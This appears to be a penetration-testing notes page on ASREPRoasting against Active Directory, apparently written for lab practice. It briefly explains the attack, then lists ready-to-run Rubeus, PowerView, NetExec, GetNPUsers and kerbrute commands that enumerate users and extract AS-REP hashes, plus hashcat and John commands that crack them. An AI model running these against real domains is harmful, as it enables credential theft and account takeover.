

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# ASREPRoasting

## TL;DR&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**. The AS-REP contains the **TGT** which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.

<figure><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows <a href="#windows" id="windows"></a>




```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```




```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```



## Linux <a href="#linux" id="linux"></a>



```bash
nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
```



```bash
GetNPUsers.py DOMAIN/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users.lst
```



```bash
kerbrute userenum -d DOMAIN --dc 172.16.5.5 /opt/jsmith.txt 
```



## Hash cracking



```
hashcat -m 18200 user_hash /usr/share/wordlists/rockyou
```




```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 asreproastable_users
```




## Practice




[forest.md](../../../../boxes/boxes/easy/forest.md)





[sauna.md](../../../../boxes/boxes/easy/sauna.md)





[blackfield.md](../../../../boxes/boxes/hard/blackfield.md)




## Resources




A great article detailing each step of the Kerberos process.





The workings of GetNPUsers script!





ASREPRoasting in 10 minutes!



